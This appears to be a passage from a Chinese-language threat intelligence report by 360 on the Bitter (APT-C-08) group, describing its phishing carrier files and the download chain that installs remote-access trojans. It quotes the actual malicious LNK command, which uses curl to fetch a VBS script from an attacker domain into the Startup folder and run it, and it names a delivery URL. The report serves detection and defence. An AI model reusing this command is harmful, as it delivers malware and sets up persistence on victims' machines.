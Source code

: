 # APT-C-08（蔓灵花）组织：多元攻击载体大揭秘  

高级威胁研究院360威胁情报中心2024年11月05日17:46北京  

# APT-C-08  

# 蔓灵花  

APT-C-08（蔓灵花）组织，又称Bitter，是一个拥有南亚地区政府背景的APT组织，近几年来持续发起针对南亚及周边国家的APT攻击，主要攻击政府、驻外机构、高校和军工行业等相关单位，以窃取敏感信息为主，具有强烈的政治背景。该组织攻击载体变化多样，攻击者善于使用各类恶意文档作为攻击入口，引诱用户打开从而下载恶意载荷让其中招，以此来窃取敏感信息。  

近一年我们在日常威胁狩猎中捕获了蔓灵花组织大量攻击载体样本，其中包括但不限于PUB文件、PDF文件、宏文档、SearchConnector-ms文件、CHM文件、LNK文件，部分载体文件还未被公开披露。鉴于此，本文将详细披露蔓灵花组织近一年使用过的载体文件以及相应的变化过程，以便用户及时发现，避免中招。  

## 一、攻击活动分析  

### 1.攻击流程分析  

通过对蔓灵花组织的持续追踪，我们捕获了多个蔓灵花组织的攻击样本，其投递主要是通过鱼叉邮件捆绑各式各样的载体文件，诱导用户点击载体文件，通过层层下载，最终执行远控程序。从捕获的远控程序来看主要集中在wmRAT类型，很少部分是C#和ORPCBackdoor类型，但是这几种远控程序变化都不是很大，只是指令功能有所增加，本文不再详细分析。另外特别说明的是，攻击者使用的远控程序一般捆绑在各种MSI软件安装程序中，这样运行时会显示各类软件安装界面，以迷惑用户。下图是蔓灵花组织整体攻击流程。  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/4544a92c51d4c9b17b9718eebed56ea6e05221154126a788ba6c527462eb80db.jpg)  

从图上可以看出，攻击者使用的载体变化多样，下面就近年来使用过的载体进行详细分析，披露恶意代码植入的整个过程，希望用户警惕此类攻击。  

### 2.PDF文档  

在今年早期时候，攻击者使用PDF文档来进行钓鱼，在整个蔓灵花组织攻击过程中使用该载体并不常见。攻击者在投递过程中会给PDF文档取一个诱导性的文件名，降低用户的警惕性。下图是该PDF打开的具体内容。  

# Encrypted Document  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/09f134e6ca141792ca0410b6d5b34e2e81e2d85fb3ed74ae06568db3abec6cd1.jpg)  

This Document contains encrypted attachment, to receive them,ClickDownload PDF.  

打开该文档，会提示用户该文档还存在其他附件，让用户点击“DOWNLOADPDF”按钮，从图可以看到点击该按钮后会连接远端地址http[:］//adamsresearchshare.com/mack.php进一步下载后续文件，下载的文件实际上为Meeting Notice.rar,解压后实际上是伪装成PDF文档的LNK文件。  

![](https://cdn-mineru.openxlab.org.cn/extract/9a0c3ba5-8952-4d15-ae76-e0dfd3f2b371/f7226b2eff52f29cf31f74f567de596a3bc619bc5b6090912862cf14e069e7da.jpg)  

该LNK文件运行后，主要是继续连接远端地址下载VBS脚本，并将该脚本加入自启动目录。  

C:\Windows\System32\conhost.exe --headless cmd /c msg \* "Corrupted" & curl --insecure ht tp://adamsresearchshare.com/textcmd/cmd1.php -o "%AppData%\Microsoft\Windows\Start Menu\Programs\winegt.vbs" & "%AppData%\Microsoft\Windows\Start Menu\Programs\win egt.vbs"  

下载的VBS脚本内容如下，主要功能通过cURL命令下载最终的载荷并执行。  

Set objShell =CreateObject("wScript.Shell")  
